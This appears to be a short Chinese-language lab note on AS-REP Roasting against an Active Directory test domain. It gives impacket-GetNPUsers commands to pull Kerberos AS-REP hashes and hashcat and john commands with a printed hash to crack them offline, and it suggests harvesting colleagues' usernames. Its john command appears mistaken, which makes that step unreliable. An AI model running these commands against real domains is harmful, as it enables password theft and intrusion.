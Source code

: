 <!-- https://blog.csdn.net/longlangci/article/details/131686439 -->

想办法获取域内用户名, 比如oa上收集同事信息
```bash
# username.txt
lixiuying@xiaorang.lab
...
lixiaoliang@xiaorang.lab
```

```bash
# 获取TGT票据
proxychains4 impacket-GetNPUsers -dc-ip 172.22.15.13 -usersfile username.txt xiaorang.lab/ 
# 破解
hashcat -m 18200 --force -a 0 '$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:e5b9df0a854b830ce5f6e5ffe2499d71$d9d9dc060842070cd86a8ecae9e214d3a0ca14b815dc3c39e39c02a33d8e905757ff35a61a31e6dae59482b894e391be7ac67d4f7f484c37cc1dd80c93be6c30ac3a3e8217380170959db080a27cf29adff473385a7c554fe06c8512039f90255f853ce5be6e456377d5aec2530e674ac79c79bae51343f0150105c46703f0a7f1ba694e72c5b4d24aea907e04c33579b7601bda211fa28e0704115de88b9c073ab8863108a2013e8ec447163ec837615ca4dce0798bfdc3424400bdb37a5f0c0497ba4d7b4da0b56c726aca69ef6234ce75776b5bed88c814ec1d0b75b64cb38e94ff66ef5ef3b0a4b4ac8b' ./rockyou.txt 
john --wordlist=/usr/share/wordlists/rockyou.txt username.txt
```

# 介绍
* Kerberos 身份认证的第一个过程又被称为预身份验证，主要是为了防止域用户密码脱机爆破。
* 如果域用户关闭了预身份验证（"Do not require Kerberos preauthentication"）的话，攻击者可以使用指定的用户向域控制器发送 AS_REQ 请求。然后域控制器会返回 TGT 票据和加密的 Session-key 等信息。
因此攻击者就可以对获取到的加密 Session-key 进行离线破解，如果爆破成功，就能得到该指定用户的明文密码。这种攻击方式被称作 AS_REP Roasting 攻击。
